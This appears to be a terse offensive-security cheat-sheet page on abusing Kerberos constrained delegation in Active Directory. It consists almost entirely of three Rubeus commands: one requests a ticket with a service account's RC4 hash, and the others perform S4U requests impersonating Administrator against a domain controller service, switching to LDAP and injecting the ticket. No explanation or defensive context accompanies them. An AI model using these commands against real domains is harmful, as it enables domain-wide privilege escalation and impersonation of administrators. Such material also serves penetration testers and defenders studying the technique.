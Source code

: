 # 🟢 Constrained Delegation

### Constrained Delegation with Rubeus

{% code overflow="wrap" %}
```
.\Rubeus.exe asktgt /user:svc_with_delegation /domain:targetdomain.com /rc4:2892D26CDF84D7A70E2EB3B9F05C425E
```
{% endcode %}

{% code overflow="wrap" %}
```
.\Rubeus.exe s4u /ticket:doIE+jCCBP... /impersonateuser:Administrator /msdsspn:time/dc /ptt
```
{% endcode %}

{% code overflow="wrap" %}
```
.\Rubeus.exe s4u /user:sa_with_delegation /impersonateuser:Administrator /msdsspn:time/dc /altservice:ldap /ptt /rc4:2892D26CDF84D7A70E2EB3B9F05C425E
```
{% endcode %}
